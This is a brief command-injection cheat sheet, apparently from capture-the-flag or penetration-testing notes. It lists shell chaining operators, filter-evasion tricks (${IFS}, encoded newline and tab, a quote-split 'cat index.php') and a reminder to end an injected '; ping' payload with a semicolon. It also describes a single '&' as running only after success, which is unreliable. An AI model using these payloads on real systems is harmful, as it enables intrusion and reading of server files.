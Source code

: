
| Syntax | Description                                |
| ------ | ------------------------------------------ |
| &      | execute if previous command was successful |
| \|\|   | execute if previous commmand failed        |
| ;      | execute despite the conidition             |
| ()     | subshell                                   |

| Tricks                | Description          |
| --------------------- | -------------------- |
| `${IFS}`              | Works as white space |
| `%0a`                 | \n                   |
| `%09`                 | \t                   |
| c'a't%09i'n'd"e"x.php |                      |

---






> [!NOTE] **DON'T FORGET**
> ALWAYS put something at the end of your command --> ; ping 10.10.16.94 **;** <-- don't forget this ending 
